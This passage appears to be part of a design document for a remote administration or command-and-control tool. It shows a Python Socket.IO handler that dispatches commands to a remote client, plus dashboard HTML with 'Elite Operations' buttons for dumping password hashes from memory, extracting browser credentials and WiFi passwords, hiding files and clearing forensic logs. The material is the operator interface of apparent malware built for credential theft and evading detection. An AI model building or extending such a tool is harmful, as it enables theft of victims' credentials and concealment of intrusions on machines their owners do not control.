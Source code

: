 ```javascript
}
```

#### B. Backend Route Updates
**File:** `web_app_real.py`

```python
@socketio.on('execute_command')
def handle_command(data):
    command = data['command']
    client_id = data['client_id']
    elite_mode = data.get('elite_mode', False)
    
    if elite_mode:
        # Use elite executor
        from Core.elite_executor import EliteCommandExecutor
        executor = EliteCommandExecutor()
        result = executor.execute(command, *data.get('args', []))
        
        # Format result for frontend
        formatted_result = format_for_frontend(result, command)
        
        # Send back to dashboard
        emit('command_result', {
            'command': command,
            'command_type': 'elite',
            'result': formatted_result,
            'client_id': client_id,
            'success': result.get('success', True)
        })
    else:
        # Legacy command handling
        pass
```

#### C. Dashboard UI Components
**File:** `templates/dashboard.html`

Add UI elements for each elite feature:
```html
<!-- Elite Commands Section -->
<div class="elite-commands-panel">
    <h3>Elite Operations</h3>
    
    <!-- Credential Harvesting -->
    <div class="command-group">
        <button onclick="executeEliteCommand('hashdump')" class="elite-btn">
            <i class="fas fa-key"></i> Extract Hashes (Memory)
        </button>
        <button onclick="executeEliteCommand('chromedump')" class="elite-btn">
            <i class="fas fa-chrome"></i> Browser Credentials
        </button>
        <button onclick="executeEliteCommand('wifikeys')" class="elite-btn">
            <i class="fas fa-wifi"></i> WiFi Passwords
        </button>
    </div>
    
    <!-- Stealth Operations -->
    <div class="command-group">
        <button onclick="executeEliteCommand('hidefile', getFilePath())" class="elite-btn">
            <i class="fas fa-eye-slash"></i> Hide File
        </button>
        <button onclick="executeEliteCommand('clearlogs')" class="elite-btn">
            <i class="fas fa-eraser"></i> Clear Forensics
        </button>
```